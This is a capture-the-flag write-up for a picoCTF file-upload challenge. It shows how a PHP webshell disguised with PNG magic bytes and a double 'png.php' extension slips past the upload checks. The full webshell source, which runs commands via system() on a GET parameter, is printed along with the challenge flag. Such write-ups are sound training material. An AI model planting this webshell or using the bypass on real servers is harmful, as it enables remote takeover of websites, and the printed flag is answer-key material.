 URL: http://atlas.picoctf.net:63046

When requesting http://atlas.picoctf.net:63046/robots.txt, you get
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

First is `/instructions.txt`, which contains
```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

Which just means that the app is checking for 
1. If the filename contains the `.png` extension
2. It's checking if the file contains the PNG magic bytes which is `89 50 4E 47 0D 0A 1A 0A` 
First, get the php webshell code and append 8 dots that will be replaced by the PNG magic bytes like this
```
........
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Then run `hexeditor -b payload.png.php` and replace all the `2E` bytes at the start with `89 50 4E 47 0D 0A 1A 0A`. After that, name the file `payload.png.php` to bypass the filename extension check and upload it. Access the file by going to `/uploads/test.png.php`. After that, you can view the flag by running `cat ../MFRDAZLDMUYDG.txt` in the webshell. 
flag: `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03}`